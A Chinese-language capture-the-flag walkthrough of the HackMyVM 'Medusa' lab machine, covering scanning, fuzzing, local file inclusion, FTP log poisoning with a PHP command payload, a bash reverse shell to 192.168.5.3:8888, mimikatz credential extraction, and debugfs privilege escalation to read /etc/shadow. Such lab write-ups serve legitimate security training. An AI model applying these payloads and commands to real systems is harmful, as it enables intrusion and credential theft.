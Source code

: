 # Medusa

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Medusa

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不允许匿名登陆。

80 扫描出 http://192.168.5.40/hades 再次扫描发现 http://192.168.5.40/hades/door.php 要输入密码，进行爆破：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -u http://192.168.5.40/hades/d00r_validation.php -X POST -d 'word=FUZZ' -H 'Content-Type: text/html; charset=UTF-8'
```

但是没有找到，在回顾 apache 的工作页面中有这样一句话：However, check Kraken open the door. 输入魔术字: Kraken 得到了新的提示：medusa.hmv 添加到 hosts 文件，再次扫描，没有扫描到，在扫描一下 vhost：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain medusa.hmv -u http://192.168.5.40/
```

发现 dev.medusa.hmv 将其加入 hosts 文件，对其扫描：

```
gobuster dir -t 64 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.medusa.hmv/ -e -x php,txt
```

发现几个连接：

```
http://dev.medusa.hmv/files/system.php
http://dev.medusa.hmv/files/index.php
```

页面都是空页面，可能有参数，ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd
```

发现 view 参数，curl http://dev.medusa.hmv/files/system.php?view=/etc/passwd 发现存在文件包含，对其再次探测，发现能够读取 ftp 的日志文件： /var/log/vsftpd.log 文件，可以将 php 脚本植入到登陆的用户名中，从而实现 RCE：

```
ftp 192.168.5.40
Connected to 192.168.5.40.
220 (vsFTPd 3.0.3)
Name (192.168.5.40:kali): <?php system($_GET[1]); ?>

curl 'http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log&1=id'

Thu Feb 20 05:22:28 2025 [pid 5391] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

直接执行反弹 shell:

```
curl -G --data-urlencode 'view=/var/log/vsftpd.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://dev.medusa.hmv/files/system.php
```

得到反弹的 shell，发现一个用户 spectre ，无权限读取 user flag，进行提权。

枚举发现文件 /.../old_files.zip 传输到 kali，有密码，使用 John 解密发现密码 medusa666 ，解压后是 lsass.DMP 文件，可以使用 mimikatz 进行读取，得到密码：

```
mimikatz.exe
sekurlsa::minidump lsass.DMP
sekurlsa::logonpasswords full
```

发现用户 spectre 的密码是 5p3ctr3_p0is0n_xX , 切换到该用户，获得了 user flag:

```
spectre@medusa:~$ cat  user.txt
good job!

487a5d1ce02c53fbf60c3abd300d9ff5
```

发现当前用户属于 disk 组，可以利用 debugfs 进行提权：

```
df -h
debugfs /dev/sda1
cat /etc/shadow
root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::
```

对哈希进行破解，得到 root 密码 andromeda 切换到 root 获得 root flag：

```
root@medusa:~# cat .rO0t.txt
congrats hacker :)

34b1e6fc5e7fe0bfd56ed4b8776c9f5b
```
